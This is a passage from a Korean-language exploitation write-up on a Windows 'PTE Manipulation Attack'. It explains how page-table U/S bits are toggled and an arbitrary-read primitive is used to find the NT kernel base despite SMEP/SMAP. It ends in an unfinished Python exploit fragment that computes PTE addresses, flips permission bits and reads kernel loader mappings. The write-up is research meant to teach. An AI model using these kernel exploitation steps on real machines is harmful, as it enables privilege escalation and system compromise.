 이때 NT 커널인지 확인하기 위해 첫 페이지를 확인할 수 있습니다. ‘SMEP 및 SMAP 정책 때문에 의도치 않은 Double Fault 및 Triple Fault를 발생시킬 수 있는 것 아닌가’ 하는 의문을 품을 수 있으나, 실제로 확인해 보았는데 그렇지 않았습니다. 첫 페이지는 `R` 권한밖에 없는 페이지인데, 아마 이것과 연관이 있을 것 같습니다. 자세한 이유는 추후 밝혀내어야 할 것 같습니다.

![image.png](PTE%20Manipulation%20Attack%202383cc7896e580cdaed8f7c26619e125/image%203.png)

아무튼 실제로 확인해 보면…

![image.png](PTE%20Manipulation%20Attack%202383cc7896e580cdaed8f7c26619e125/image%204.png)

![image.png](PTE%20Manipulation%20Attack%202383cc7896e580cdaed8f7c26619e125/image%205.png)

잘 등장하는 것을 볼 수 있습니다.

황당하게도, 자세한 정보 없이 치명적인 페이지에 대한 `U/S` 비트를 뒤집지 않고, 몇십 번의 AAR 만으로도 NT 커널 베이스를 구할 수 있었던 것입니다.

<aside>
💡

제가 여러 번 테스트 해 보았는데, NT 커널은 항상 물리 주소 `0x100400` 을 가지고 있다는 사실을 볼 수 있었습니다. 하지만 이것이 모든 컴퓨터에서 공통은 아닙니다.

</aside>

전체 코드는 다음과 같습니다.

```python
selfpte_pte = mm_pxe_base | (selfpte_idx * 8)
toggle_us(selfpte_pte)
print("Toggled U/S bit successfully!")

nt_base = None

loader_ppe_addr = get_pp_table_entry(0xFFFF000000000000 | (496 << 39)) # Initial Loader Mappings..
loader_pxe_entry_addr = get_px_table_entry(0xFFFF000000000000 | (496 << 39))
toggle_us(loader_pxe_entry_addr)
loader_ppe_table = read_memory(loader_ppe_addr, 0x1000)

unknown_ppes = []
for i in range(512):
```